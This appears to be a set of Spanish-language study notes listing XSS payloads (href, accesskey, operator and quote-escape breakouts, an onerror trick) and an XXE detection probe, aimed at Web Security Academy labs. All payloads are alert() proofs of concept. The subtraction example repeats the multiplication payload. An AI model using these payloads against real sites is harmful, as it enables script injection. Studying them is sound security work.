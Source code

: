 ### A partir de corromper el href
~~~html
<a id="author" href="javascript:this.addEventListener(&quot;click&quot;, alert(1))">text</a>
<a id="author" href="javascript:alert(2)">text</a>
~~~

### A partir de Access Key
~~~html
Visitando:
/?'accesskey='x'onclick='alert(1)
/?'accesskey='x'onclick='alert(1)'

Referencias
<button accesskey="s">Stress reliever</button>
<link rel="canonical" accesskey="X" onclick="alert(1)" />
<link rel="alternate" accesskey="y" onclick="alert(2)" />
https://url.com/?'accesskey='x'onclick='alert(1)
~~~

### Interpretación matemática
~~~html
Funciona porque javascript lo interpreta como una ecuación matemática: 

# Multiplicación
https://000.web-security-academy.net/?search=%27*alert(1)*%27

# Resta
https://000.web-security-academy.net/?search=%27*alert(1)*%27
~~~

### Escapar terminadores
~~~javascript
https://000.web-security-academy.net/?search=\%27-alert(1);//+comentario
\'-alert(1);//+comentario

var searchTerms = '\\'-alert(1);// comentario';
~~~

### Sustituyendo windows para lanzar un error
~~~javascript

5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
~~~
Referencia:
+ https://stackoverflow.com/questions/64416874/javascript-window-object-window-what-does-this-code-do

### XXE

#### Validate if XXE exists in app
~~~xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE check [ <!ENTITY xxe "exist"> ]> 
<stockCheck><productId>&xxe;</productId></stockCheck>
~~~
